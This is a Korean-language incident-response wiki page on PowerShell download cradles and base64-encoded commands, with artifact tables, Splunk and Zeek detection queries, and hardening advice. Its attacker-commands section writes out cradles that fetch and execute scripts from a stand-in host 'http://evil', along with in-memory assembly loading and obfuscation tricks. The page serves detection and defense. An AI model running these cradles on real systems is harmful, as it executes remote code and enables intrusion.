

# PowerShell 다운로드 크래들과 인코딩된 명령 { #powershell-download-cradles-encoded-commands }

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1059.001 (명령 및 스크립트 인터프리터: PowerShell) + T1027 (난독화된 파일 또는 정보) · **전술:** 실행 / 방어 회피 · **최종 수정:** 2026-09-17
</div>

!!! abstract "요약"
    PowerShell은 서명돼 있고, 어디에나 있고, 디스크에 파일 없이 **메모리에서 바로** 코드를 실행할 수 있어서 공격자가 가장 좋아하는 인터프리터입니다. "크래들"은 한 줄로 2단계를 내려받아 실행하고(`IEX (New-Object Net.WebClient).DownloadString(...)`), 인코딩(`-EncodedCommand`)과 난독화는 대충 보는 로그 검토에서 의도를 숨깁니다. 하지만 **스크립트 블록 로깅(4104)**은 그와 상관없이 *디코딩된* 텍스트를 기록하므로 — 로깅이 켜져 있다면 가장 잘 관측되는 기법 중 하나입니다.

## 공격 원리 { #how-the-attack-works }



흔한 플래그: `-nop` (프로필 없음), `-w hidden` (창 없음), `-ep bypass` (실행 정책 끔), `-enc`/`-e` (base64 UTF-16LE 명령), `-c` (명령). base64는 **UTF-16 리틀 엔디언**이라서 디코딩한 바이트의 글자 사이에 널 바이트가 있습니다.

## 공격 도구 / 명령 { #attacker-tooling-commands }

```text
# Classic cradle
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://evil/a.ps1')"
powershell -e SQBFAFgAIAAoAE4AZQB3...    # base64 of the above (UTF-16LE)

# Variants
IWR http://evil/a.ps1 | IEX
IEX (iwr('http://evil/a') -UseBasicParsing)
[Reflection.Assembly]::Load([Convert]::FromBase64String('...'))   # load a .NET assembly in memory
$b=(New-Object Net.WebClient).DownloadData('...'); [AppDomain]::CurrentDomain.Load($b)

# Obfuscation (Invoke-Obfuscation style)
&('i'+'ex')(...); `-join` tricks; ${e`n`v:...}; format-operator -f
```

## 남는 흔적 { #artifacts-left-behind }

| 위치 | 아티팩트 | 찾을 것 |
|---|---|---|
| 호스트 **PowerShell/Operational** | **4104** (스크립트 블록) — `-enc`까지 포함한 **디코딩된** 텍스트 | 최고의 아티팩트; 긴 블록, `IEX`, `DownloadString`, `FromBase64String`, AMSI/리플렉션 키워드 |
| | **4103** (모듈/파이프라인), **4105/4106** (시작/중지) | 추가 맥락 |
| 호스트 **Windows PowerShell** (클래식) | **400/403/600** — `HostApplication` 필드에 전체 명령줄 | 스크립트 블록 로깅이 없어도 동작 |
| 호스트 Sysmon/Security | **1**/**4688** — `-enc`/`-nop -w hidden`이 붙은 `powershell.exe`; `Process_Command_Line` | 실행기와 그 플래그 |
| 호스트 Defender | **1116/1117** — AMSI 탐지 (`PowerShell/…`) | AMSI가 실행 시점에 디코딩된 버퍼를 검사 |
| 호스트 | PowerShell 콘솔 히스토리 `ConsoleHost_history.txt` ([레지스트리 키](../windows/registry-keys.md#program-execution-per-user-unless-noted)); 떨어뜨린 스크립트를 참조하는 [Prefetch](../windows/prefetch.md) `POWERSHELL.EXE-*.pf` | 대화형 명령 + 참조한 파일 |
| 네트워크 | [Zeek `http.log`](../network/zeek/http-log.md) — `.ps1`/`.txt`를 가져오는 `powershell`/빈 UA; 조회는 [`dns.log`](../network/zeek/dns-log.md); HTTPS라면 [`ssl.log`](../network/zeek/ssl-x509.md) | C2에서 2단계 가져오기 |

!!! warning "4104가 없나요? 로깅부터 확인하세요"
    스크립트 블록 로깅이 꺼져 있으면 `4104`는 없지만 — `HostApplication` 필드가 있는 클래식 **Windows PowerShell** 로그 `400`/`600`과 Sysmon/`4688` 명령줄이 여전히 실행기를 기록합니다. 스크립트 블록 로깅을 전사에 켜세요(`HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging\EnableScriptBlockLogging=1`) — 할 수 있는 Windows 로깅 변경 중 가치는 가장 크고 비용은 가장 적습니다.

## 탐지 { #detection }

=== "Splunk — 디코딩된 스크립트 블록 (4104)"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
    | eval score=0
    | eval score=score+if(match(ScriptBlockText,"(?i)downloadstring|downloadfile|downloaddata|invoke-webrequest|iwr |net\.webclient"),2,0)
    | eval score=score+if(match(ScriptBlockText,"(?i)frombase64string|::load\(|reflection\.assembly|[char]|-join"),2,0)
    | eval score=score+if(match(ScriptBlockText,"(?i)iex|invoke-expression|\. \("),1,0)
    | eval score=score+if(match(ScriptBlockText,"(?i)amsi|bypass|-nop|-w hidden|hidden|virtualalloc|kernel32|shellcode"),2,0)
    | eval score=score+if(len(ScriptBlockText)>1000,1,0)
    | where score >= 3
    | table _time, host, User, score, Path, ScriptBlockText
    | sort - score
    ```

    `4104`는 디코딩된 스크립트 텍스트를 줍니다. 거대한 정규식 하나 대신 블록마다 **점수**를 매깁니다: 다운로드 크래들, base64/리플렉션 로딩, `IEX`, AMSI 우회/인젝션 키워드, 그리고 길이 자체가 각각 점수를 더합니다. `where score >= 3`이 수상한 블록을 끌어올려 순위를 매기는데, 합격/불합격 일치보다 읽기 좋고 조정도 쉽습니다.

=== "Splunk — 인코딩된 실행기 (명령줄)"

    ```spl
    index=botsv3 (sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1 Image="*powershell.exe")
                 OR (sourcetype=WinEventLog EventCode=4688 New_Process_Name="*powershell.exe")
    | eval cmd=coalesce(CommandLine, Process_Command_Line)
    | rex field=cmd "(?i)-(?:e|en|enc|encodedcommand)\s+(?<b64>[A-Za-z0-9+/=]{20,})"
    | where isnotnull(b64)
    | eval decoded=replace(base64decode(b64),"\x00","")
    | table _time, host, User, ParentImage, decoded
    | sort 0 _time
    ```

    `rex`가 `-e`/`-enc` 뒤의 base64를 잡고, `base64decode`가 되돌리며, `replace(...,"\x00","")`가 UTF-16 널 바이트를 지워서 공격자가 숨기려 한 **평문 명령**을 보여 줍니다 — 대개 C2 URL이 그대로 드러난 다운로드 크래들 자체입니다.

=== "Zeek — 2단계 가져오기"

    ```bash
    zeek-cut -d ts id.orig_h host uri user_agent resp_mime_types < http.log \
      | grep -iE 'powershell|(^|\t)-\t' | grep -iE '\.(ps1|txt|dat)\b|x-dosexec'
    ```

    크래들은 HTTP로 2단계를 가져오는데, 흔히 `powershell`이나 빈 User-Agent로 `.ps1`/`.txt`나 위장한 실행 파일을 끌어옵니다. `uid`를 [`conn.log`](../network/zeek/conn-log.md)로 피벗하고 [`dns.log`](../network/zeek/dns-log.md)에서 도메인을 확인하세요.

## 대응 { #response }

스크립트 블록(`4104`/디코딩된 실행기 출력)을 디코딩해 읽고 무엇을 가져와서 무엇을 했는지 이해한 뒤, **C2/스테이징 URL과 도메인**을 뽑아 차단하세요. 2단계가 떨어뜨린 파일은 해시해서 헌팅하세요([Amcache](../windows/amcache.md)/[files.log](../network/zeek/files-log.md)). 크래들은 곧장 비콘으로 이어지는 경우가 많으니 [비코닝과 C2](../network/beaconing-c2.md)와 자격증명 접근까지 따라가세요. PowerShell 로그와 콘솔 히스토리를 보존하세요. 강화 — 이 기법은 로깅이 가장 큰 값을 하는 곳입니다: **스크립트 블록 로깅**과 **모듈 로깅**을 전사에 켜고, WDAC/AppLocker로 PowerShell을 **제한된 언어 모드(CLM)**로 돌리고, **AMSI**를 켜 두고(디코딩된 버퍼를 검사), PowerShell v2 제거를 고려하고(AMSI 없음, 4104 없음), `-enc`/`-w hidden`/`DownloadString`에 상시 경보를 거세요.

## 참고 자료 { #references }

- [MITRE ATT&CK — T1059.001](https://attack.mitre.org/techniques/T1059/001/) · [T1027](https://attack.mitre.org/techniques/T1027/)
- [Microsoft — About PowerShell script block logging](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows)
- [Red Canary — PowerShell threat detection](https://redcanary.com/threat-detection-report/techniques/powershell/)
- 관련 페이지: [피싱 전달](phishing-delivery.md) · [비코닝과 C2](../network/beaconing-c2.md) · [이벤트 로그](../windows/event-logs.md) · [보안 검색](../splunk/security-searches.md)
